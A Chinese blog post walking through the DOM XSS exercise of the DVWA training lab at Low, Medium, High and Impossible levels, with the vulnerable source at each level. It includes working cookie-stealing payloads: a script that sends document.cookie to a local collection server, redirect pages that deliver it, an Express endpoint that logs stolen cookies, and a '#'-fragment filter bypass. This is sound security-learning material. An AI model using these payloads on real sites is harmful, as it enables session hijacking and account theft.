






DVWA XSS DOM All
====

目录
---

[TOC]

## 1. 背景

最近需要补充一下网络安全方面的知识，于是就从基础的靶场 `DVWA (Damn Vulnerable Web Application)` 开始刷起，这一篇是关于从`Low`到`High`难度的跨站脚本攻击的内容。

和我一样希望学习网络安全知识的同学，推荐学习[《Web安全攻防实战》](http://gk.link/a/10jxi)和[《安全攻防技能30讲》](http://gk.link/a/10juL)。

## 2. 环境搭建

参考上一篇[关于 Brute Force 暴力破解密码的博客](https://blog.csdn.net/qq_41729780/article/details/107071363)。

## 3. 跨站脚本攻击

### 3.1. Low



$$
\text{Figure 1. XSS DOM}
$$

先从 `Low` 难度开始，这是一个下拉选择框，我们先看一看构成选项的`Javascript`代码，这里会将URL中的`default`关键字的值拼接到`HTML`中。

```JavaScript
if (document.location.href.indexOf("default=") >= 0) {
    var lang = document.location.href.substring(document.location.href.indexOf("default=") + 8);
    document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
    document.write("<option value='' disabled='disabled'>----</option>");
}

document.write("<option value='English'>English</option>");
document.write("<option value='French'>French</option>");
document.write("<option value='Spanish'>Spanish</option>");
document.write("<option value='German'>German</option>");
```

再看一看服务端的代码，`Low`难度没有对`URL`进行任何控制。

```php
<?php

# No protections, anything goes

?>
```

比如我们想要窃取别人的`Cookie`的话，只需要诱导他点击下面的链接。

```javascript
http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:10278/web/vulnerabilities/xss_d/?default=English<script>alert(document.cookie)</script>
```



$$
\text{Figure 2. Cookie}
$$

当然，这个链接太明显了，别人不一定会点击，我们可以在服务器上挂一个网页，从网页转到这个链接即可。

这里我们仅在本地调试，我们在本地`8888`端口挂一个`hack.js`文件，这里的命令将会把`Cookie`发送到`hack`接口。

```javascript
window.location.href = "http://localhost:8888/hack?cookie=" + document.cookie;
```

再构造一个跳转页面作为`index.html`。

```html
<!DOCTYPE html>
<html lang="zh">

    <head>
        <meta charset="UTF-8">
        <style>
            div {
                text-align: center;
            }

        </style>
    </head>

    <body>
        <div>
            <p>
                页面跳转中，请稍候。。。
            </p>
            <script src="transfer.js">

            </script>
        </div>
    </body>

</html>

```

下面是页面中执行的`transfer.js`文件，它将当前页面跳转到XSS，然后执行`hack.js`，把`cookie`发送到了`hack`端口。

```javascript
window.location.href = "http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:10278/web/vulnerabilities/xss_d/?default=English<script src=http://localhost:8888/hack.js>\</script>";
```

服务端以`Express`为例，`hack`端口输出了传入的`cookie`，并将页面再重定向到 `www.baidu.com`。`Express` 的具体配置可以参考[另一篇博客](https://blog.csdn.net/qq_41729780/article/details/105080727)。

```node
var app = express();
app.get('/hack', function (req, res, next) {
    console.log("-----------------");
    console.log(req.query.cookie);
    console.log("-----------------");
    res.redirect('http://www.baidu.com');
});
```

最后`cookie`显示在了服务端的日志中。



$$
\text{Figure 3. Show Cookie}
$$

### 3.2. Medium

接下里是 `Medium` 难度。

我们先查看一下源码，这里对`default`属性的值做了一个判断，如果包含`<script`则将其值恢复到`English`，会将`URL`中的`JavaScript`脚本筛除掉。

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];

    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}

?>
```

`script`标签不能用了，我们还可以使用`img`标签访问一个不存在的资源，然后在`onerror`中调用`JavaScript`代码。

如果用`document.write`在`select`标签中写入`img`标签，会被自动抹除掉，所以要闭合`option`和`select`标签

把`transfer.js`改成下面这样，就能在`onerror`中使用`alert`命令了。

```JavaScript
window.location.href = "http://9710fc76520cf9b2ff5ea67e0af9e0df.n2.vsgo.cloud:10278/web/vulnerabilities/xss_d/?default=English</option></select>";
```



$$
\text{Figure 4. Medium}
$$

不过这里因为不能把字符串和变量区分开，所以不能使用更加复杂的`JavaScript`代码。

要实现把cookie发送到服务端，我们还可以在URL中使用 `#` 符号，`#` 在URL中用来在页面中进行定位，浏览器不会把 `#` 后面的值发送到服务端。

所以，我们在`transfer.js`中加入一个 `#` 符号。

```javascript
window.location.href = "http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:10278/web/vulnerabilities/xss_d/?default=English# <script src=http://localhost:8888/hack.js>\</script>";
```

这样就能绕过检查规则，达到向我们的服务器发送`cookie`的目的了。



$$
\text{Figure 5. Show Cookie}
$$

### 3.3. High

接下来是`High`难度，源码如下。

```php
<?php

// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}

?>
```

这里使用了白名单，只允许 `default` 属性为4个合法值。用上面提到的`#`符号同样可以绕过。

```javascript
window.location.href = "http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:10278/web/vulnerabilities/xss_d/?default=English# <script src=http://localhost:8888/hack.js>\</script>";
```

### 3.3. Impossible

`Impossible`就基本上没有什么安全漏洞了。

```php
<?php

# Don't need to do anything, protction handled on the client side

?>
```

```javascript
if (document.location.href.indexOf("default=") >= 0) {
    var lang = document.location.href.substring(document.location.href.indexOf("default=") + 8);
    document.write("<option value='" + lang + "'>" + (lang) + "</option>");
    document.write("<option value='' disabled='disabled'>----</option>");
}

document.write("<option value='English'>English</option>");
document.write("<option value='French'>French</option>");
document.write("<option value='Spanish'>Spanish</option>");
document.write("<option value='German'>German</option>");
```

`JavaScript`中没有对`URL`进行解码，`English`后面的脚本会被`URL`编码后放在选项中，脚本不会执行。



$$
\text{Figure 6. Impossible}
$$

---

**联系邮箱**：curren_wong@163.com

**CSDN**：[https://me.csdn.net/qq_41729780](https://me.csdn.net/qq_41729780)

**知乎**：[https://zhuanlan.zhihu.com/c_1225417532351741952](https://zhuanlan.zhihu.com/c_1225417532351741952)

**公众号**：**复杂网络与机器学习**

欢迎关注/转载，有问题欢迎通过邮箱交流。


